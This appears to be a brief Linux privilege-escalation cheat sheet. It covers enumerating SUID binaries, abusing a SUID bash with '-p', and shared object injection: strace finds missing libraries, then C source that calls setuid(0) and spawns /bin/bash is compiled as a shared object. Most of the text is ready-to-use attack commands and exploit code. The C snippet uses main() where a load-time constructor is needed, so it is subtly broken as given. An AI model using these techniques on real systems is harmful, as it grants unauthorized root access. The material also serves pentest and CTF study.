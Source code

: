 # SUID
---------

Get SUID binaries:
```bash
find / -perm -u=s -type f 2>/dev/null

find / -type f -perm -04000 -ls 2>/dev/null
```

```bash
./bash -p # -p is priviledged mode
```


### Shared Object Injection
---------
Use strace on obscure binaries to find missing files.
```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

If we have enough permissions to create missing files, create the file:
```C

#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(){
	setuid(0);
	setgid(0);
	system("/bin/bash");
	return 0;
}
```

```bash
gcc -fPIC -shared -o shell.so shell.c
```

